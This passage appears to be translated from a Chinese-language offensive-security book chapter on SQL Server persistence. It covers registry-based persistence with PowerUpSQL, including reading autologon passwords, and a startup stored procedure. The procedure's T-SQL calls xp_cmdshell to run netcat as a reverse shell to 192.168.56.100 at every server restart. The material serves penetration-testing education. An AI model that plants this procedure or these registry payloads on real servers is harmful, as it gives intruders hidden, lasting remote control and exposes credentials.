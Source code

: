 在 `sql_svc` 的下次登录时，我们会收到连接，如下图所示：

![图 9.22 – 来自启动文件夹中文件的反向 shell](img/B18964_09_22.jpg)

图 9.22 – 来自启动文件夹中文件的反向 shell

SQL Server 还允许你通过存储过程与注册表交互——`xp_regwrite`、`xp_regread` 和 `xp_regdeletekey`。执行这些存储过程需要`sysadmin`权限。然而，在操作系统层面，这还不够——例如，写入 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run hive` 需要本地管理员权限。PowerUpSQL 有三个使用注册表来实现持久化的功能：

+   `Get-SQLPersistRegDebugger` – 为辅助功能选项设置自定义调试器

+   `Get-SQLPersistRegRun` – 在自动运行键中写入有效载荷

+   `Get-SQLRecoverPwAutoLogon` – 读取自动登录密码

现在，让我们来看看一些在数据库级别持久化的更加安全的 OpSec 选项。

## 启动存储过程

如你从这种类型的过程名称中可以猜到的，它会在 SQL Server 启动或重启时运行。所有此类过程都在 `sa` 登录下运行，必须由 `sa` 拥有，并且必须位于 master 数据库中。为了标记一个过程为自动执行，`sysadmin` 权限是必需的，但不一定是 `sa`。过程不能接受任何输入/输出参数。以下代码创建了我们的恶意过程（**sp_rev_shell**），标记其为自动执行，并列出自动执行的存储过程：

```
USE master
CREATE PROCEDURE sp_rev_shell
AS
EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
EXEC sp_procoption @ProcName = 'sp_rev_shell', @OptionName = 'startup', @OptionValue = 'on';
SELECT * FROM sysobjects WHERE type = 'P' AND OBJECTPROPERTY(id, 'ExecIsStartUp') = 1;
```

SQL Server 服务重启后，反向 shell 被执行：
